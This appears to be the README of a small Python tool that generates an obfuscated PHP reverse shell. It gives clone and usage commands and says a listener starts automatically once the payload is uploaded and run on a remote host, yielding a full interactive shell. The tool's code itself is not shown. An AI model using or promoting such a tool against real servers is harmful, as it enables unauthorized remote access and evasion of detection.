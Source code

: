 # PHP reverse shell generator
This is a small python script to generate an obfuscated php reverse shell.

# Installing
The script doesn't require any third-party software.

You have just to clone the repo via ``` git clone https://github.com/0blio/FIDO/ ```. 

## Usage
1. Generate the payload: ``` python main.py <ip> <port> <filename>```. 
A connection listener will be automatically set up.
2. Upload and execute the payload on the remote host and you will obtain a full tty shell with tab-completion.
